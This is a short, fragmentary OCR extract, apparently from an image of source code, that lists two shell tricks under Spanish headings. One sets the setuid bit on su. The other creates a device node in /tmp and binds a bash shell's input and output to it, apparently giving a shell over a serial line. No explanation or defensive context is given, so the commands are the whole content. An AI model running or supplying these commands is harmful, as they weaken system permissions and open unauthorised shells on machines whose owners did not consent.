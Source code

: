 

## 1 con su

chmod 4755 $(which su)

## 2 Con mknod

mknod /tmp/greencore c 188 0

bash 2>/tmp/greencore>/tmp/greencore</tmp/greencore;bash;

